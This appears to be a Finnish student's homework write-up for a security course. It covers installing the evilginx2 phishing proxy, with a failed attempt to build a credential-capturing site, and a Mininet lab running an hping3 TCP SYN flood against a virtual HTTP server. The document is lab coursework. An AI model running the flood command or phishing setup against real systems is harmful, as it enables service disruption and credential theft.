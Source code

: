 ## h5 kotitehtävät 

# a) Tutustu seuraavaan työkaluun https://github.com/kgretzky/evilginx2Vastaa seuraaviin kysymyksiin: Asensitko työkalun, jos asensit niin kirjoita miten sen teit .Mitä teit työkalun kanssa? Onnistuitko huijaamaan liikennettä

Aloitin lataamalla evilginx2 kalille:

    sudo apt-get install evilginx2


![image](https://github.com/user-attachments/assets/9dc6392e-a99f-4015-9a95-2e0ceb0fad2a)

Ohjelman avaaminen 

    sudo evilginx2


![2](https://github.com/user-attachments/assets/a10f2cdf-8a82-445c-ab01-466dbd11df05)

lähdin etsimään miten evilginx2 voi testata paikallisesti löysin videon https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena ja https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond


Yritin luoda huijaus sivuston jonka kautta olisin saanut esim. kirjautumis tietoja mutta en saanut sitä toimimaan.



# b) Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen.
Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen.

Asensin mininetin, hping3 , xterm ja python3 kalilleni:

        sudo apt install mininet hping3 xterm python3



Tämän jälkeen käynnistin sen:

        sudo mn --topo single,3 --mac --switch ovsk --controller remote

Sain erroria openvswitchistä jonka jälkeen asensin sen uudelleen ja laitoin päälle:

![1](https://github.com/user-attachments/assets/fc7685ab-b3d8-4584-b2d9-05d7b8c318a1)

        sudo apt install openvswitch-switch
        sudo service openvswitch-switch start

Tämän jälkeen avataan xtermillä h1-h3


![term](https://github.com/user-attachments/assets/c927f203-e3cc-49f1-a7ba-cdf4fddf43e6)


1. Aluksi loin mininet-ympäristön
2. H2 HTTP-palvelin päälle
3. H1 suorittaa TCP SYN-flood -hyökkäyksen


avataan http palvelin h2 : 

![image](https://github.com/user-attachments/assets/0791f9e3-e31e-4dd3-830a-4b95bd2fd221)



käynnistetään hyökkäys h1:stä h2:seen : 

    hping3 -S --flood --rand-source -p 80 10.0.0.2         

![image](https://github.com/user-attachments/assets/033d44d2-985f-462b-af2f-b57ec2dbb578)


References:


https://github.com/yudasm/WHfB-o365-Phishlet

https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond

https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena

https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html

https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

https://nccs.gov.in/public/events/DDoS_Presentation_17092024.pdf
